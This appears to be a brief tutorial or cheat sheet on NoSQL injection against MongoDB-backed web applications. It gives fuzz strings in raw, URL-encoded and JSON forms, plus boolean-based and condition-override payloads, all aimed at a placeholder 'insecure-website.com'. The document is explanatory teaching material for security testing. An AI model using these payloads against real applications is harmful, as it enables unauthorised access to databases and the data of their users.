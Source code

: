 # NoSQL Injections
There are two main types of NoSQL injections:
* Syntax injection (similar to sqli methodology)
* Operator injection
Most popular NoSQL DB is mongo  

## Example
User's query:
```
https://insecure-website.com/product/lookup?category=fizzy
```
Json query to mongo's collection:
```
this.category == 'fizzy'
```
Example of fuzz string (to detect any error):
```
'"`{
;$Foo}
$Foo \xYZ
```
And URL-encoded request:
```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

Json adaptation of paylaod (to inject in parameters of request, not in URL):
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
Simple test is applying `'` and `\'`, In first step, request must be broken and when we escape the quote, request must be valid.  

### Confirming conditional behaviour
Next we can test for boolean-based attack:
```
' && 0 && 'x
' && 1 && 'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
If responses differ, we are able to influence boolean logic of application.  
### Overriding existing conditions
We can send payload similar to `' OR 1=1` in SQLi:
```
'||1||'
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
Result in query:
```
this.category == 'fizzy'||'1'=='1'
```